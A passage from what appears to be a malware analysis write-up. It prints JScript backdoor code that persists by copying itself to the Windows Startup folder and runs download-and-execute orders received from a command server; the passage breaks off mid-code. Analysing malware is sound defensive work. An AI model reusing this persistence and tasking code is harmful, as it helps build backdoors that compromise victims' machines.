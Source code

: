 <h6>The following block show that the persistence method is only to push the file to startup folder as the persistence. The second function uses the parser loaded for parse the orders received as JSON on the response of the C2. We can note that has a number of tries for connecting to the C2 else this exit.</h6>

```js
function AddToAutorun()
 {
  try
  {
   startupPath= defaultPath+ '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
   fsObj= WScript.CreateObject('Scripting.FileSystemObject');
   fsObj.CopyFile(scriptFullPath,startupPath)
  }
  catch(err){return}
 }

 function DoTasks(tasksJson)
 {
  if(tasksJson.length< 5)
  {
   if(DownloadAndExecute== true){return;};
   return;
  };
  var result='False';
  var attempts=0;
  var details="";
  try{tasks= JSON.parse(tasksJson)} 
  catch(err){return};
  if(!AddToAutorun){GetFilenameFromURL= 1}
  else 
  {
   for(var task in tasks)
   {
    result= 'False';
    attempts= attemptsCount;
    details= "";
    if(DoTasks=== 1){return}
    else 
    {
     while((attempts> 0)&& (result!= 'True'))
     {
      if(GetFilenameFromURL=== 0){SendTaskResult();return};
      switch(tasks[task]["type"])
      {
       case "Download & Execute":result= DownloadAndExecute(tasks[task]["content"]);
        if(result== 'False'){details= "Error: download or executing file failed"};
        break;
       case "Execute":result= Execute(tasks[task]["content"]);
        if(result== 'False'){details= "Error: executing file failed"};
        if(!DoTasks){DownloadAndExecute();LoadJsonParser= 1;return};
        break;
       case "Terminate":status= "Stopped";
        if(!LoadJsonParser){DownloadAndExecute();GetClientInfo= false};result= 'True';
        if(!DownloadAndExecute){GetFilenameFromURL(null);return};
        break;
       default:result= 'False';
        details= "Error: unknown task type";
        break;
      };
      if(result== 'False'){attempts--}
      else 
      {
       if(!SendKnock){AddToAutorun()}
```